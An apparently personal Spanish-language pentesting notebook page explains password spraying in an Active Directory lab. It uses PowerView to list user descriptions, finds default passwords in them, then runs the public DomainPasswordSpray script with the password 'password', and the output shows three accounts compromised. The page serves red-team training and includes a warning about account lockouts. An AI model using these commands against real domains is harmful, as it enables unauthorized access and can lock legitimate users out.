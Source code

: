 ```yaml
---
icon: sprinkler
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Esta tecnica consiste en ser capaces de coger una contraseña y propagarla por todos los usuarios del dominio para saber que usuarios coinciden y tienen esa contraseña asociada, pero es una tecnica muy intrusiva y en entornos reales se hay llegado a utilizar por equipos de `Red Team` y han llegado a bloquear todas las cuentas de usuarios ya que dependiendo de como este configurado tendra un numero limitado de intentos.

Primero para poder identificar alguna contraseña podremos ver las descripciones que en algunos casos puede ser muy importante para poder ver si alguno se dejo la ocntraseña puesta en la descripcion y realizar la tecnica.

```powershell
cd .\Desktop
. .\new_powerview.ps1
Get-NetUser | select name,description
```

Info:

```
name              description
----              -----------
Administrator     Built-in account for administering the computer/domain
Guest             Built-in account for guest access to the computer/domain
krbtgt            Key Distribution Center Service Account
empleado1
empleado2
Maurine Bibby
Henrie Kaleena
Ali Alix
Saree Dayna
Lonnie Betti      Replication Account
Abbi Jocelyn
Arlie Gunilla
Adorne Bridgette  Shared User
Roanna Bidget
Aubry Carolan
Ermina Hatti
Angelika Shelly   Replication Account
Barby Min
Jannel Emalia
Audre Maible
Kizzie Kacy
Andreana Shea
Emeline Shirline
Brynne Kenon
Myrtia Agatha
Ernaline Lowell
Gerri Kathi
Goldarina Nicki
Avril Cheri
Bobette Glenn
Joanie Karine
Gwenneth Gilly
Saidee Kaye
Cynthie Rori      Replication Account
Cristabel Melony
Mela Jacquetta
Jennifer Gerry    Shared User
Ginevra Michel
Arabella Norry
Colly Katey
Marsha Jordan
Britni Henrieta
Alejandrina Faye
Philis Bertha
Harriett Daron
Ardine Farra
Robena Prudence
Pearl Judye
Riva Nellie
Jobina Aleta
Fayina Hyacinth
Loretta Jerrine
Peta Adelind
Ophelie Odele
Cybil Alica
Shay Siana
Halette Martelle
Audrey Hedwiga
Betsey Stephine
Demetris Daveta
Lexy Rosaline
Ilyssa Nevsa
Denice Freda
Georgia Marie-Ann
Benny Alikee
Sandye Leodora
Germain Gavrielle Shared User
Milicent Gracie
Meg Carolee
Linn Evaleen
Mirna Annice
Diana Sharai
Deeann Amalita
Kettie Shanta
Estelle Kelli
Guenna Jessi      Shared User
Allissa Lezlie
Crissie Deena
Olga Rhoda
Anna Costanza
Corie Josie       New User ,DefaultPassword (password)
Evy Britta
Jaime Luise
Gennifer Cleo
Colly Elfie
Gill Kellie
Carmon Leoine
Farrand Inna
Donnie Lari
Millie Hanny
Sarita Alisha
Rycca Jacinta
Levin Bab
Celle Sherye      New User ,DefaultPassword (password)
Chloris Ilysa
Kelley Happy
Darsey Jasmine
Ebba Nicoline
Geneva Lorrin
Joellyn Pippa
Renelle Jacynth
Sarah Rhoda
Annice Mable      My password is Passw0rd5
Aimil Evangelia   Shared User
```

Por lo que vemos, estamos viendo a 2 usuarios bastante interesantes que dicen tener la contraseña por defecto y esta misma esta entre parentesis (`password`).

Por lo que vamos a utilizar un script publico de un repositorio de `GitHub` para realizar esta tecnica que estara en el siguiente link:

URL = [DomainPasswordSpray GitHub](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

Copiaremos el script y lo pegaremos en un archivo del equipo de `empleado1` llamado `passwordspray.ps1`.

Una vez realizado todo eso en el `PowerShell` pondremos lo siguiente.

```powershell
. .\passwordspray.ps1
```

Con esto ya habremos cargado el script.

> NOTA

En tal caso de que diera un error puede ser por la linea `261` la cual habra que comentar de la siguiente forma:

```powershell
# Write-Host "${Message}: Waiting for $($Seconds/60) minutes. $($Seconds - $Count)"
```

Y lo volveremos a ejecutar.

Una vez cargado el script, tendremos que hacer lo siguiente para realizar la tecnica, pero antes tendremos que generar el archivo de usuarios para poder utilizarla para la tecnica de la siguiente forma.

```powershell
Get-NetUser | Select-Object -ExpandProperty name | Out-File C:\Users\empleado1\Desktop\users.txt
```

Esto nos habara generado un archivo en el escritorio algo asi:

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Y ahora vamos a probar como vimos anteriormente si alguno mas de esos 2 usuarios tiene la contraseña por defecto llamada `password`:

```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password "password"
```

Info:

```
[*] Using .\users.txt as userlist to spray with
[*] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 1 minutes.
[*] Setting a 1 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 104 accounts?
[Y] Yes  [N] No  [?] Ayuda (el valor predeterminado es "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password password against 104 users. Current time is 8:11
[*] SUCCESS! User:ernaline.lowell Password:password
[*] SUCCESS! User:corie.josie Password:password
[*] SUCCESS! User:celle.sherye Password:password
[*] Password spraying is complete
```

Y vemos que nos esta sacando las contraseñas de dichos usuarios, pero si lo probamos muchas veces puede ser que bloqueemos las cuentas de usuarios ya que los que no estan coincidiendo tengan un limite de intentos y se bloqueen por lo que hay que tener mucho cuidado con esto.
